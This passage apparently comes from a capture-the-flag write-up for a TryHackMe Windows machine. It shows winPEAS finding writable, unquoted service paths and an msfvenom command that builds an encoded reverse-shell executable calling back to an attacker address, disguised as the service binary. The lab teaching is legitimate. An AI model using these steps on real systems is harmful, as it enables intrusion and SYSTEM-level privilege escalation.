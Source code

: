 ```bash
09/25/2023  11:38 AM    <DIR>          ..
09/27/2019  05:42 AM                70 user.txt
09/25/2023  11:38 AM            71,716 winPEAS.ps1
               2 File(s)         71,786 bytes
               2 Dir(s)  44,169,576,448 bytes free

C:\Users\bill\Desktop>

#Python HTTP Server  Response
abhinav@ETHICALHACKX:~/ctf/thm$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.23.6 - - [26/Sep/2023 00:08:26] "GET /winPEAS.ps1 HTTP/1.1" 200 -           
10.10.23.6 - - [26/Sep/2023 00:08:26] "GET /winPEAS.ps1 HTTP/1.1" 200 -  
```

Let us run WinPeas.ps1 

I am only posting the portion of WinPeas Output thats of our interest.
SERVICE path vulnerable check  - says ASCService.exe is writable.
Which means we can write here a malicious binary and execute it as a service.

```bash
=========|| SERVICE path vulnerable check
Checking for vulnerable service .exe
LiveUpdateSvc found with permissions issue:
Identity STEELMOUNTAIN\bill has 'Write' perms for C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
AdvancedSystemCareService9 found with permissions issue:
Identity STEELMOUNTAIN\bill has 'Write' perms for C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
IObitUnSvr found with permissions issue:
Identity STEELMOUNTAIN\bill has 'Write' perms for C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe

=========|| Checking for Unquoted Service Paths
Fetching the list of services, this may take a while...
Unquoted Service Path found!
Name: AdvancedSystemCareService9
PathName: C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
StartName: LocalSystem
StartMode: Auto
Running: Running
Unquoted Service Path found!

```

We now create a payload using msfvenom to be uploaded to the path.

Step 6 - Create msfvenom payload && start python server (to upload payload to target)

```bash
abhinav@ETHICALHACKX:~/ctf/thm$ msfvenom -p windows/shell_reverse_tcp LHOST=10.14.57.81 LPORT=7777 -e x86/shikata_ga_nai -f exe -o ASCService.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: ASCService.exe
                                                                                   
abhinav@ETHICALHACKX:~/ctf/thm$ ls
39161.py  ASCService.exe  nc.exe  thm.ovpn  winPEAS.ps1
                                                                                   
```